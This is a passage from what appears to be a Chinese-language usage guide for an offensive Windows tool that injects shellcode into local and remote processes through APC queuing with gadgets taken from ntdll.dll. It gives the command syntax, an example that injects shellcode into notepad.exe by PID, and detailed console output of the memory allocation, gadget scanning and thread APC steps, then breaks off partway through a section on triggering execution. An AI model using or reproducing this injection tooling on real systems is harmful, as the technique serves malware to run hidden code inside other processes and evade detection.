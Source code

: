 ```
[+] SystemArgument1 = 0000000000A50000 (shellcode)

[+] NtQueueApcThreadEx succeeded
[+] Calling NtTestAlert to trigger APC...

[+] Local injection successful!
```

#### 远程注入（目标进程）

```cmd
# 语法
gadget_apc_injection.exe remote <PID> <shellcode.bin>

# 示例：注入到 notepad.exe
start notepad
gadget_apc_injection.exe remote 5678 calc_shellcode.bin
```

**输出示例**：
```
[+] Remote Gadget APC Injection
[+] Target PID: 5678
[+] Shellcode size: 276 bytes

[+] Opened target process
[+] Allocated remote memory at 0000000002D40000
[+] Wrote shellcode to remote process
[+] Module ntdll.dll base address: 00007FFE8C5D0000
[+] Module size: 2097152 bytes
[+] Searching for gadgets in executable sections...
[+] Scanning section: .text
[+] Found 1247 gadgets
[+] Selected random gadget at ntdll.dll!00007FFE8C6C1F8A (index 892/1247)
[+] Gadget bytes: 53 C3 (pop ebx/rbx; ret)

[+] Enumerating threads...
[+] Queueing APC to thread 1234
[+] Queueing APC to thread 5678

[+] Queued APCs to 2 threads
[+] Waiting for thread to enter alertable state...
[+] Remote injection successful!
```

## 触发 APC 执行

### 本地注入

调用 `NtTestAlert()` 立即触发 APC

### 远程注入
